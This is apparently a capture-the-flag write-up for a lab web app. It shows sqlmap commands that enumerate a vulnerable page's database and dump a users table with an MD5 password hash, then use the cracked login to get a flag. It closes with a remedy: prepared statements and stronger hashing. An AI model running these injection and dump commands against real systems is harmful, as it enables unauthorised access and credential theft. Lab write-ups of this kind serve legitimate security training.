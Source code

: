 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlpmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#"
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dbs
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --tables -D Member_Brute_Force
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --columns -D Member_Brute_Force -T db_default
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force -T db_default
    options [Y, Y, D, N];

usernames with cracked passwords

id| username | password
1 | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)
2 | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)

If we login using these in http://192.168.43.251/index.php?page=signin we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
1. Again preapred statements would have prevented us form getting this sort of information
2. However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :\.

# Resources
https://www.youtube.com/watch?v=ciNHn38EyRc